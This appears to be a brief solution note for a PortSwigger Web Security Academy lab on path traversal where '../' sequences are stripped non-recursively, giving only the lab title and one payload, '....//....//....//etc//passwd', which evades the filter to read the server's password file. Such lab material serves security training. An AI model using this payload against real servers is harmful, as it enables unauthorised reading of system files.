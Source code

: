 # [File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

```
....//....//....//etc//passwd
```
